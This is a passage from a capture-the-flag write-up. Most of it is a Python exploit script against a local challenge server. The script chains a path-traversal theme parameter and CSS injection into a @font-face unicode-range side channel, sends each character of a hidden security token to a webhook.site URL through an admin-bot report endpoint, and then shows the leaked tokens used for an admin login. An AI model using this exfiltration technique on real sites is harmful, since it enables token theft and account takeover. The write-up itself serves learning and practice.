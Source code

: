 ```python
import time
import requests
import random
import string
from urllib.parse import quote

s = requests.Session()
def generate_random_string(length):
    # Choose from uppercase, lowercase, and digits
    characters = string.ascii_letters + string.digits
    random_string = ''.join(random.choices(characters, k=length))
    return random_string
baseUrl = r"http://localhost:1337"
data = {
    "username":generate_random_string(4),
    "password":"123"
}
res = s.post(baseUrl+"/register",json=data)
print(res.text)
res = s.post(baseUrl+"/login",json=data)
print(res.text)
token = res.cookies.get('token')
def char_to_unicode(char):
    code_point = ord(char)
    return f"{code_point:02X}"
chars ="abcdefghijklmnopqrstuvwxyz0123456789"
print(chars)
webhook = "https://webhook.site/b7dd4def-ee30-4273-abbd-e7c070ed3d15"
def loadFont(i):
    font = r""
    result = [f"f{char}" for char in chars]
    result_string = r', '.join(result)
    for char in chars:
        font+= r''' @font-face%20{%20font-family:%20"f'''+char+r'''";%20src:%20url(https://webhook.site/b7dd4def-ee30-4273-abbd-e7c070ed3d15/?q='''+char+str(i)+r''');%20unicode-range:%20U%2b'''+char_to_unicode(char)+''';%20}'''
    font+=r'''.SECURITY_TOKEN%20:nth-child('''+str(i)+r'''){color:red;font-family:'''+result_string+r''',Arial'''
    return font
loadFont(1)
def leak(i):
    data={"url":baseUrl+r'''/view/../profile?theme=white;:}'''+loadFont(i)}
    res=s.post(baseUrl+'/report',json=data,cookies={"token":token})
    print(res.text)


for i in range(2,22):
    leak(i)
```
FOUND local : ditmbzpvkkm7ow85qjz

FOUND server: b3zjagxhqzwarjzfjkj

- Then just use JWT token and login as admin :DDD. Game end. <3 <3 <3 


# Conclusion.
- I want to say thank you to all the authors who spends time creating such a great challenge. I learned a lots from these and its good chance to try my self to the best !!!